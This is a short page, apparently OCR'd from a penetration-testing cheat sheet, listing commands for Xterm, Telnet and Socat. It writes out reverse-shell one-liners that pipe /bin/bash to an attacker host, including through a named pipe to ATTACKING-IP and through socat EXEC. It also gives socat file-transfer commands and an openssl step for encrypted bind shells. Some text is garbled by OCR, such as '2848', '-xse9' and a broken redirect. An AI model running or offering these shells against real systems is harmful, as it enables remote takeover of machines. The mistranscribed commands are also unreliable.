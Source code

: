## <mark style="color:red;">Xterm</mark>

```
xterm -display 10.0.0.1:1 → host

Xnest :1 → attacker allow connection

xhost +targetip → attacker
```

## <mark style="color:red;">Telnet</mark>

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

## <mark style="color:red;">Socat</mark>

### <mark style="color:orange;">connect</mark>

```
socat - TCP4:[ip]:[port] 
socat TCP4-LISTEN:[port] STDOUT
```

### <mark style="color:orange;">file transfer</mark>

```
sudo socat TCP4-LISTEN:443,fork file:file.txt
socat TCP4:18.11.8.4:443 file:file.txt,create
```

### <mark style="color:orange;">reverse shell</mark>

```
socat -d -d TCP4-LISTEN:443 STDOUT
socat TCP4:18.11.8.22:443 EXEC:/bin/bash
```

### <mark style="color:orange;">Encrypted Bind Shells</mark>

​​create a cert with openssl:

```
openssl req -newkey rsa:2848 -nodes -keyout shell.key -x509 -days 365 -out shell.crt
```

```
req: initiate a new certificate signing request
-newkey: generate a new private key
rsa:2848: use RSA encryption with a 2,048-bit key length.
-nodes: store the private key without passphrase protection
-keyout: save the key to a file
-xse9: output a self-signed certificate instead of a certificate request
-days: set validity period in days
-out: save the certificate to a file
```
